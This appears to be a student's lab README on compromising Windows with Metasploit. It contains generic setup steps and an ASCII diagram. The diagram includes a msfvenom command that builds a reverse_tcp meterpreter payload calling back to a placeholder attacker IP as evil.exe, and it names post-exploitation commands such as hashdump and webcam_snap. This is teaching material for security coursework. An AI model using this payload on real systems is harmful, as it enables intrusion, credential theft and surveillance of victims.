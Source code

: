 NAME: GOPIKA A

REG NO: 212224100017

# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
```